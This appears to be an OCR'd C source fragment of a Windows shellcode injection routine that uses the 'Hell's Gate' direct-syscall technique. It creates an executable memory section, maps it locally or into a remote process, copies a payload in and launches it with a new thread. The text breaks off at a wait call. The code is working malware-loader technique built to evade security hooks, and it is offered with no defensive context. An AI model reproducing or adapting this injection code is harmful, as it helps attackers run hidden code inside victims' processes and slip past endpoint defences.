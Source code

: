 ```c
	if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if (bLocal) {
		dwLocalFlag = PAGE_EXECUTE_READWRITE;
	}

	HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, dwLocalFlag)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

	//--------------------------------------------------------------------------
    // Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

	//--------------------------------------------------------------------------
        // Allocating remote map view 
        if (!bLocal) {

          HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
          if ((STATUS = HellDescent(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
            printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
            return FALSE;
          }

          printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

        }

	//--------------------------------------------------------------------------
    // Executing the payload via thread creation
    pExecAddress = pRemoteAddress;
	if (bLocal) {
		pExecAddress = pLocalAddress;
	}
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pExecAddress);
	HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pExecAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

	//--------------------------------------------------------------------------
    // Waiting for the thread to finish
	HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
```